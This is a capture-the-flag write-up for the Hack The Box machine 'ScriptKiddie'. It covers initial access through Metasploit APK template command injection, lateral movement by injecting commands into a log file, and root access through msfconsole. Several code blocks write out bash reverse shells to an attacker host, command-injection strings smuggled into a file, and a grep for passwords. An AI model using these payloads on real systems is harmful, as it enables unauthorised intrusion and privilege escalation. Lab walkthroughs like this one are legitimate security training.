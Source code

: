 ScriptKiddie
============

[![](ScriptKiddie/Screenshot_1.png)](ScriptKiddie/Screenshot_1.png)

First scan the IP using nmap, it has 2 ports open

So, we have a panel that allow scan Nmap and generate payloads and
search exploits.

[![](ScriptKiddie/Untitled.png)](ScriptKiddie/Untitled.png)

Searching i found a way to make a reverse shell via APK template CMD
injection

[![](ScriptKiddie/Untitled%201.png)](ScriptKiddie/Untitled%201.png)

Create apk with reverse shell using metasploit famework.

[![](ScriptKiddie/Untitled%202.png)](ScriptKiddie/Untitled%202.png)

Upload and start netcat in port that you chose.

[![](ScriptKiddie/Untitled%203.png)](ScriptKiddie/Untitled%203.png)

[![](ScriptKiddie/Untitled%204.png)](ScriptKiddie/Untitled%204.png)

Success ! We have got the reverse shell.

Try turn shell interactive and start explore the machine, a interesting
file are located in /home/kid/logs/hackers, after we can make anything
with him.

[![](ScriptKiddie/Untitled%205.png)](ScriptKiddie/Untitled%205.png)

Reading files with password word.

[![](ScriptKiddie/Untitled%206.png)](ScriptKiddie/Untitled%206.png)

``` {#b9df99b3-9b2a-46a5-b8cf-84146662c04c .code}
/var/logs:  grep -r "password"
```

Setting full interactive shell.

``` {#a68f0632-1e0c-4166-826f-e9a7541c1967 .code}
s=$(stty -g); stty -icanon -echo -isig; fg; stty "$s"
```

[![](ScriptKiddie/Untitled%207.png)](ScriptKiddie/Untitled%207.png)

Writing reverse shell in hackers script, open port in netcat and wait
for connection.

``` {#955188b4-fdcc-49b3-b7b2-b0e5ae348571 .code}
echo "  ;/bin/bash -c 'exec bash -i &>/dev/tcp/IP/443 <&1' #" >> hackers
```

In the horizontally escalated session had msfconsole command with root
enabled.

[![](ScriptKiddie/Untitled%208.png)](ScriptKiddie/Untitled%208.png)

[![](ScriptKiddie/Untitled%209.png)](ScriptKiddie/Untitled%209.png)

msfconsole have a method to spawn shell in session, make that and get
the root flag or run the command cat /root/root.txt .

[![](ScriptKiddie/Untitled%2010.png)](ScriptKiddie/Untitled%2010.png)

``` {#c616ce57-573f-4fa3-8ad6-3434a10ae67d .code}
10.10.10.226:5000/static/payloads/b2b27ec61ee3.apk

bash -i >& /dev/tcp/10.10.14.185/3232 0>&1


echo -n '\x00' + ';bash -i >& /dev/tcp/10.10.14.185/3232 0>&1 ; ./home/pwn/scanlosers.sh #' > hackers
echo -n ';bash -i >& /dev/tcp/10.10.14.185/3232 0>&1 ; ./home/pwn/scanlosers.sh #' > hackers
echo -n './home/pwn/scanlosers.sh'
/home/pwn/./scanlosers.sh

echo -n '/home/pwn/./scanlosers.sh'
echo -n 'ls /home/pwn/recon' > hackers

/usr/share/doc/passwd/
/etc/apparmor.d/abstractions/mysql


echo "  ;/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.185/4443 <&1' #" >> hackers



find directory-location -group {group-name} -name {file-name}



user_spec={'hostname': 'scriptkiddie', 'realname': 'kid', 'username': 'kid', 'password': '<REDACTED>'}
['useradd', 'kid', '--comment', 'kid', '--groups', 'adm,cdrom,dip,plugdev,lxd,sudo', '--password', 'REDACTED', '--shell', '/bin/bash', '-m'
```

